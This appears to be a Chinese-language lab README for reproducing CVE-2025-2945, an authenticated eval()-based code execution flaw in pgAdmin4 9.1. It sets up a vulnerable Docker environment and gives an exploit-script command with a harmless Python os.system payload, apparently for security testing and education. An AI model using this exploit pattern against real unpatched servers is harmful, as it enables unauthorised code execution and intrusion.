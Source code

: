 # pgAdmin4 <= 9.1 后台远程代码执行漏洞 (CVE-2025-2945)

pgAdmin是一个流行且功能丰富的开源PostgreSQL数据库管理和开发平台，广泛被数据库管理员和开发者用于通过Web界面管理PostgreSQL数据库。

pgAdmin4 9.2版本之前存在一个远程代码执行漏洞。该漏洞存在于两个POST接口中：`/sqleditor/query_tool/download`接口的`query_commited`参数和`/cloud/deploy`接口的`high_availability`参数被不安全地传递给Python的`eval()`函数，允许已认证的攻击者在服务器上执行任意代码。该漏洞影响pgAdmin4 9.2版本之前的所有版本。

参考链接：

- <https://nvd.nist.gov/vuln/detail/CVE-2025-2945>
- <https://github.com/advisories/GHSA-g73c-fw68-pwx3>
- <https://github.com/pgadmin-org/pgadmin4/issues/8603>
- <https://github.com/pgadmin-org/pgadmin4/commit/75be0bc22d3d8d7620711835db817bd7c021007c>

## 环境启动

执行以下命令启动pgAdmin4 9.1服务器和PostgreSQL数据库：

```
docker compose up -d
```

服务器启动后，访问<http://localhost:5050/>进入pgAdmin4登录页面。pgAdmin4的登录凭据为`vulhub@example.com:vulhub`。

利用此漏洞需要一个可访问的PostgreSQL数据库实例来初始化SQL编辑器。PostgreSQL数据库已包含在docker-compose.yml中，并已在pgAdmin4的服务器列表中预配置，凭据为`vulhub:vulhub`。

## 漏洞复现

复现此漏洞可以使用Metasploit的`exploit/multi/http/pgadmin_query_tool_authenticated`模块或独立的Python脚本<https://github.com/Cycloctane/cve-2025-2945-poc/blob/main/exp.py>。

运行exploit脚本，使用简单的文件创建载荷来验证代码执行：

```bash
./exp.py --target-url http://localhost:5050 \
    --username vulhub@example.com --password vulhub \
    --db-user vulhub --db-pass vulhub --db-name vulhub \
    --payload "__import__('os').system('touch /tmp/success')"
```

执行成功后，通过检查容器来验证文件是否被创建：

```bash
docker compose exec web ls -al /tmp/
```

你应该能在`/tmp/`目录中看到`success`文件，这证明通过易受攻击的`eval()`函数实现了任意代码执行。

![exp](1.png)
